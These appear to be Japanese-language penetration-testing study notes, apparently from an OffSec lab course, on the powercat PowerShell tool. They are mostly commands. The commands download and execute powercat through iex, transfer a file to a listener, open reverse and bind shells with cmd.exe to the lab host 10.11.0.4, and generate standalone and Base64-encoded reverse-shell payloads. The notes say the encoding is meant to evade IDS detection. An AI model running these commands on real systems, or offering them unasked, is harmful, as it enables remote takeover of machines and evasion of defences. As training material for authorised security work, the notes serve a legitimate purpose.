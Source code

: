 ```
 PS C:\Users\Offsec> iex (New-Object System.Net.Webclient).DownloadString('https://raw. githubusercontent.com/besimorhino/powercat/master/powercat.ps1')
```
```
PS C:\Users\offsec> powercat -h
powercat - Netcat, The Powershell Version
Github Repository: https://github.com/besimorhino/powercat
```

### ファイル転送
```
受信側
kali@kali:~$ sudo nc -lnvp 443 > receiving_powercat.ps1 listening on [any] 443 ...
connect to [10.11.0.4] from (UNKNOWN) [10.11.0.22] 63661

送信側
PS C:\Users\Offsec> powercat -c 10.11.0.4 -p 443 -i C:\Users\Offsec\powercat.ps1
```

### reverse shell
```
受信側
kali@kali:~$ sudo nc -lvp 443 listening on [any] 443 ...

送信側
PS C:\Users\offsec> powercat -c 10.11.0.4 -p 443 -e cmd.exe
```

### bind shell
```
受信側
PS C:\Users\offsec> powercat -l -p 443 -e cmd.exe

送信側
kali@kali:~$ nc 10.11.0.22 443
Microsoft Windows [Version 10.0.17134.590]
(c) 2018 Microsoft Corporation. All rights reserved.
C:\Users\offsec>
```

### スタンドアローン型payloadの生成
Powercatでは-gオプションをつけることで、スタンドアローン型ペイロードの生成が可能である。
```
PS C:\Users\offsec> powercat -c 10.11.0.4 -p 443 -e cmd.exe -g > reverseshell.ps1 PS C:\Users\offsec> ./reverseshell.ps1
```

しかし、スタンドアロン型ペイロードはIDSによって容易に検出される可能性がある。  
そこで、Base64でエンコードされたコマンドを実行できるPowerShell機能を利用することで、回避する。  
-geオプションを利用することで、
```
PS C:\Users\offsec> powercat -c 10.11.0.4 -p 443 -e cmd.exe -ge > encodedreverseshell.ps1
```
